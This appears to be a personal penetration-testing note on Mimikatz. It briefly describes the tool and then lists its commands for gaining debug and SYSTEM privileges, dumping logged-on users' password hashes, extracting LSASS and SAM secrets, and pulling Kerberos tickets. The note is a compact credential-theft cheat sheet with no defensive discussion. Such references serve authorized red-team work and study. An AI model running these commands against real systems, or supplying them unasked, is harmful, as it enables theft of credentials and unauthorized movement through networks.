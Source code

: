 **Mimikatz** is a tool that is commonly used by hackers and security professionals to *extract sensitive information*, such as passwords and credentials, from a system’s memory. It is typically used to gain unauthorized access to networks, systems, or applications or to perform other malicious activities, such as *privilege escalation* or *lateral movement* within a network.

# Commands

- To Check For *Admin Priviliges* :-
```mimikatz
privilege::debug
```
![[Pasted image 20230120170758.png]]

- Elevate to *System Privileges*:
```mimikatz
token::elevate
```

- To *Dump Passwords* :-
```sh
# Dump hashes of all users logged on the current system/server
sekurlsa::logonpasswords

# Dump passwords stored in LSASS
lsadump::lsa /patch
## OR
lsadump::sam

# Get TGS & TGT
sekurlsa::tickets
```
	
![[Pasted image 20230120171713.png]]

![[Pasted image 20230719170540.png]]